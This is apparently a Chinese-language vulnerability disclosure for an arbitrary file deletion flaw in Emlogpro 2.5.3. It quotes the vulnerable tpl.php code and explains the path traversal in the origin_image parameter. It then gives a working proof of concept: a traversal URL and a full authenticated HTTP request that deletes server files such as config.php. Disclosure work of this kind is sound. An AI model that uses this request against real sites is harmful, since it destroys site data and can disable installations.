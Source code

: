 
## Emlogpro 2.5.3任意文件删除漏洞
EMLOG 是一款轻量级开源博客和CMS建站系统，速度快、省资源、易上手，适合各种规模的站点搭建。

Emlogpro 最新版本 2.5.3中存在一个严重漏洞，漏洞文件：`content\plugins\tpl_options\actions\tpl.php`存在路径穿越以及参数可控导致任意文件删除

### 解决建议
建议您更新当前系统或软件至最新版，完成漏洞的修复。

### 漏洞分析
`content\plugins\tpl_options\actions\tpl.php`漏洞文件如下
```php
<?php
/*
 * Author: Vaimibao-曦颜XY
 * Description: 模板设置插件AJAX处理。
*/

require_once '../../../../init.php';

if (!User::isAdmin()) {
    echo '权限不足！';
    exit;
}

//处理AJAX action
$action = Input::postStrVar('action', '');
if (!isset($action)) {
    echo '操作失败，请刷新网页！';
    exit;
}

//处理AJAX请求
if ($action === 'tpl_upload') {
    $origin_image = Input::postStrVar('origin_image', '');
    $ret = uploadCropImg();
    $file_path = $ret['file_info']['file_path'];
    $abs_file_path = '';
    $abs_file_path = strstr($file_path, 'content/uploadfile/');
    if ($abs_file_path === false) {
        echo '{"code":"error","data":"文件上传出错"}';
        exit;
    }
    $abs_file_path = BLOG_URL . $abs_file_path;

    //删除旧图
    if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false) {
        $path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
        if (file_exists($path)) {
            unlink($path);
        }
    }

    if (empty($ret['success'])) {
        echo '{"code":"error","data":"' . $ret['message'] . '"}';
        exit;
    }

    if ($file_path) {
        echo '{"code":"success","data":"' . $abs_file_path . '"}';
        exit;
    }
}
```
主要作用是上传新的图片并删除老的图片

代码中我们可控`origin_image`，也就是老图片的路径，最后unlink的path是拼接出来的，并且有if条件
```r
if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false)
```
我们路径必须含有`uploadfile`，最后会被拼接
```r
$path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
```
那么我们就可以通过路径穿越来任删除意文件比如：config.php
```r
http://localhost/content/uploadfile/../../config.php
```

### 搭建到服务器上攻击

先进入容器在app目录创建一个file.txt(等会利用漏洞任意文件删除这个文件)
![png](./1.png)
管理员用户登录
点击外观->模板->在默认模板中点击头部设置->选择任意图片上传
![png](./2.png)
brup抓包后只用将origin_image更改为poc:
```r
http://124.220.37.173:8000/content/uploadfile/../../file.txt
```

完整http报文
```http
POST /content/plugins/tpl_options/actions/tpl.php HTTP/1.1
Host: 124.220.37.173:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38850914281727208123467510771
Content-Length: 6265
Origin: http://124.220.37.173:8000
Connection: close
Referer: http://124.220.37.173:8000/admin/template.php
Cookie: PHPSESSID=936897df99aabaaecb83730927efa59f; EM_AUTHCOOKIE_PY2fzSUL3tB6Rk8Jsjmurk2ZSBCifkIb=admin%7C1768579696%7Ca56b08b3f3d8179dc513fa7c20a40e18; EM_AUTHCOOKIE_IeOWYaYo8d73Rtrkcn8N8zzmOVhFZnsX=admin%7C1768582678%7Cb494dbed29cbe93144bec965430ca811

-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="action"

tpl_upload
-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="image"; filename="logo.png"
Content-Type: image/png

PNG


-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="origin_image"

http://124.220.37.173:8000/content/uploadfile/../../file.txt
-----------------------------38850914281727208123467510771--

```

截图：
![png](./3.png)

执行后发现成功删除该文件：
![png](./4.png)
